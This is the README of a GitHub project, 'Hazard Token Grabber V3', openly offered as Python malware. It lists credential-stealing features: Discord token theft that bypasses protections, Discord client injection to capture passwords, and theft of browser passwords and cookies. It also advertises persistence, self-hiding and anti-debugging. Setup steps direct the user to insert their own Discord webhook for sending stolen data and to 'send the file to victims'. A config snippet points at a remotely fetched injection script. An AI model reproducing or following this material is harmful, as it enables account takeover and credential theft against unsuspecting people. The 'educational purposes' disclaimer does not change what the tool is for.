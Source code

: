 <h1 align="center">
  Hazard Token Grabber V3 🔧
</h1>

<p align="center"> 
  <kbd>
<img src="https://camo.githubusercontent.com/b4909d8c45134b255c5e0c959cbca68f655d044e944c39fdcd91bbbb5d58eb1e/68747470733a2f2f692e646973636f72642e66722f5053532e706e67">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdmo1_Hazard-Token-Grabber-V3&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V3 was made with

CODE 🟩

</h2>

**NOTE:** \
Hazard was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/VC3N3AXfgF)
- [🎉・Setting up Hazard Token Grabber.V3](#setup)
- [⚙・Config](#config)
- [🔍・Screenshot](#screenshot)

## <a id="features"></a>🔰 〢 Features

- `Anti-vm/Anti-debug` 🟢 
- `Add to startup` 🟢
- `Hides itself`🟢
- `Options are configurable`🟢
- `Pretty Fast Even if it Was Made With Python`🟢
- `Windows Product Key & Build Info`🟢
- `IP & Geolocation. (Country, City, Google Maps Location)`🟢
- `A screenshot of all their monitors`🟢
- `All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)`🟢
- `Discord Injection ( you get there password if they change it )`🟢
- `All Passwords, Cookies and History from Google`🟢

## <img src="https://raw.githubusercontent.com/Rdmo1/images/master/Hazard-Token-Grabber-V3/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V3

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [hazard.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/hazard.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. and save it
5. for the file name , Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓
    'webhook': "WEBHOOK_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdmo1/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
```

---
## <a id="screenshot"></a>🔍 〢 Screenshot
<p align="center"> 
  <kbd>
<img src="https://cdn.discordapp.com/attachments/1030360968473100331/1030404106134749244/IMG_20221014_165751.png">
  </kbd>
</p>
